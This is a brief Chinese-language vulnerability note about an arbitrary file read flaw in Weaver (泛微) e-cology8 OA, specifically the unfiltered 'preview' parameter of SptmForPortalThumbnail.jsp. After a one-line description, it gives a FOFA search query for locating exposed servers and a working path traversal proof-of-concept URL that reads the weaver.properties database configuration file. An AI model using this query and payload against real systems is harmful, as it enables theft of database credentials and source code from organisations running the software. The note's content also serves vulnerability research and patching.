 ## 泛微OA-E-cology8-SptmForPortalThumbnail.jsp任意文件读取漏洞

泛微 e-cology8 的 SptmForPortalThumbnail.jsp 文件中的 preview 未进行安全过滤，攻击者可通过该漏洞读取泄露源码、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```
app="泛微-OA（e-cology）"
```

## poc

```
/portal/SptmForPortalThumbnail.jsp?preview=../ecology/WEB-INF/prop/weaver.properties
```

![image-20240603134349033](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406031343093.png)